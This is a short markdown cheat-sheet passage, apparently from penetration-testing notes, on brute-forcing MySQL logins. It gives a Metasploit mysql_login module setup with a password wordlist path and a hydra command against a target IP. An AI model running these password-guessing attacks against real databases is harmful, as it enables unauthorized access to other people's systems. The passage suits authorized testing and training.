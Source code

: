 
### Using `metasploit`

```
use auxiliary/scanner/mysql/mysql_login
```

- Set `stop_on_success` to true
- Wordlist path - `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

### Using `hydra`

```
hydra -l <username> -P <path_to_wordlist> <target-ip> mysql
```